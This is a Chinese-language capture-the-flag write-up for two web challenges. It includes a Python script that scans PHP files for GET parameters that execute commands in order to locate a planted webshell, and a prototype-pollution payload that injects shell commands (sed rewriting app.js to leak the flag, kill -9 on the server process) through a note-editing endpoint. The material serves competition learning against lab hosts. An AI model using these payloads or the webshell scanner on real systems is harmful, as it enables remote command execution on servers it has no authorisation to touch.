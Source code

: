 ## Big Hacker

强网国赛的题目。。。  
本地起环境爆参数，还应该测一下POST，但是GET就有shell  
多线程线程池不太好维护，单线程也不会很慢...  

```python
import os
import re
import time

import requests

uuid = "36b6ae3a-2c5b-4ad1-a42a-cb656ac54780"
start = "A00UTldNShN.php"

# http://detroit.sustech.edu.cn:28084/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag

if __name__ == '__main__':
    while True:
        try:
            global start
            hit = False
            for i in os.listdir("e:\\desk\\src"):
                if not hit and i != start:
                    continue
                start = i
                hit = True
                f = open(f"e:\\desk\\src\\{i}", "r", encoding="utf-8")
                print(f"[*] testing: {i}")
                code = f.read()
                gets = re.findall(r"\$_GET\['(.*?)']", code)
                for param in gets:
                    r = requests.get(f"http://192.168.254.137/src/{i}?{param}=echo {uuid}")
                    if r.status_code != 200:
                        if requests.get("http://192.168.254.137/src/A00UTldNShN.php").status_code != 200:
                            raise Exception("500")
                        else:
                            continue
                    if uuid in r.text:
                        print(f"[+] shell fond on: {i}")
                        print(f"[+] get: {param}")
                        exit(0)
        except Exception as e:
            print(e)
            time.sleep(1)
            print("[-] retrying...")

```

## Proto Note

原型链污染，网鼎国赛的题。  

本来环境问题只允许web服务的端口正向出网，思路是杀掉自己的进程再抢一个正向shell占掉端口，但是环境里nc python都没有，非常感人。  

利用上边的思路还是能当成不出网的题目做的

POST `http://172.18.36.237:28052/edit_note`  
`id=__proto__.x&raw=x&author=sed -i 's#Sorry cant find that!#'$FLAG'#' app.js`  污染，替换404为flag  

GET `http://172.18.36.237:28016/status` 刷新  

POST `http://172.18.36.237:28052/edit_note`   
`id=__proto__.x&raw=x&author=kill -9 29`  杀掉进程，守护进程会让它重启  
没有重启可以执行一次 `node app.js`  

GET `http://172.18.36.237:28016/status` 刷新  
pid可以从200往下爆破，无响应后重启就中了。每次容器初次启动都在29号。  


GET `http://172.18.36.237:28016/fuck` 随便找个404页面就可以拿到flag。  